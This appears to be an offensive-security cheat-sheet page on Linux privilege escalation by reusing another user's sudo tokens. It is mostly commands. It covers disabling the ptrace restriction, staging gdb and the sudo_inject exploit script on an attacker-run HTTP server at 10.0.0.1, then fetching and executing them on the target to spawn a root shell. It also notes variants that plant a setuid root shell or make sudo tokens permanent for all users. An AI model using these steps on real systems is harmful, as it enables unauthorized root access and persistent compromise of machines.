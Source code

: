 # Reuse Sudo Tokens

## Theory 

In the scenario where you have a shell as a user with sudo privileges but you don't know the password of the user, you can wait for him/her to execute some command using sudo. Then, you can access the token of the session where sudo was used and use it to execute anything as sudo (privilege escalation).

## Practice 

{% tabs %}
{% tab title="Enumerate" %}
Requirements to escalate privileges:

- The user have used sudo to execute something in the **last 15mins** (by default that's the duration of the sudo token that allows us to use sudo without introducing any password)
- There is no restriction on ptrace
```bash
cat /proc/sys/kernel/yama/ptrace_scope
0

# We can temporariliy set 0 if we have permissions.
echo 0 | sudo tee /proc/sys/kernel/yama/ptrace_scope
```
- gdb is accessible (you can be able to upload it)
```bash
# In local machine, download the debian package.
wget http://fi.archive.ubuntu.com/ubuntu/pool/main/g/gdb/gdb_9.1-0ubuntu1_amd64.deb -O gdb.deb
python3 -m http.server

# In remote machine, download the deb package and extract it.
wget http://10.0.0.1:8000/gdb.deb
dpkg -x gdb.deb ~
```

{% endtab %}

{% tab title="Exploit" %}
Prepare the exploit script from the [sudo_inject](https://github.com/nongiach/sudo_inject) repo and execute it.
```bash
# In local machine, download the shell script to exploit.
wget https://github.com/nongiach/sudo_inject/blob/master/exploit.sh
python3 -m http.server

# In remote machine, download it and execute.
wget http://10.0.0.1:8000/exploit.sh
sh exploit.sh
```

After that, we can spawn a sudo shell, or execute command as sudo with the token
```bash
#Activate the token
/tmp/activate_sudo_token

#Enjoy
sudo su
sudo /usr/bin/sudo-bin
```

{% hint style="info" %}
exploit.sh ->    will create the binary activate_sudo_token in /tmp
exploit_v2.sh -> will create a sh shell in /tmp owned by root with setuid
exploit_v3.sh -> will create a sudoers file that makes sudo tokens eternal and allows all users to use sudo
{% endhint %}

{% endtab %}
{% endtabs %}

### References

{% embed url="https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/sudo/#reuse-sudo-tokens" %}

{% embed url="https://book.hacktricks.xyz/linux-hardening/privilege-escalation#reusing-sudo-tokens" %}

